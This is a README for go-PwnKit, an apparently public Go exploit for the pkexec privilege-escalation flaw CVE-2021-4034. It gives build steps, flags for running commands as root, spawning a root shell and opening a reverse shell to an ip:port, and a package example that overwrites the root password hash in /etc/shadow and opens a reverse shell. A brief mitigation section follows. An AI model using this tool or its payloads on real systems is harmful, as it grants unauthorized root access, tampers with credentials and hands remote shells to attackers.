 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.

The exploit use `syscall.ForkExec` to survive end of main program.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Run command as root in separate process
  -o    Pipe output of forked command to terminal
  -r string
        Open a reverse-shell in separate process. Format: ip:port
  -s    Spawn a root shell
```

The exploit can either be used with a command (`-c`), as a reverse-shell (`-r`) or spawn a root shell (`-s`).



```bash
$> ./exploit -s
sh-5.1#
```

```bash
$> ./exploit -c "cat /etc/passwd"
```

```bash
$> ./exploit -o -c "cat /etc/passwd"
[/etc/passwd content]
```



#### As package

```go
package main

import (
    "github.com/OXDBXKXO/go-PwnKit"
)

func main() {
    // Change root password to 'password'
    gopwnkit.Command(`sed -i -e 's,^root:[^:]\+:,root:$6$eymNRCK.KxwDM6vu$idH0swGW1nsnLb8fT1QibUho5xg7uGJT7fuiheLZHIi9M4gTSk0qIOlUIk2Mm9/Nz5C.T4GkgkmLcK5BtOPkS0:,' etc/shadow`, false)

    // Open a reverse-shell
    gopwnkit.RevShell("127.0.0.1:1337")
}

```

Note as `Command` and `RevShell` use `syscall.ForkExec` to run the exploit, resulting processes are separate from the main program and survive its end.

Although **go-PwnKit** can be imported to your project from Github, do not forget that you will execute an untrusted shared library as root. Using a locally compiled `PWN.so` is hence highly recommended. Just sayin' 😚


## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
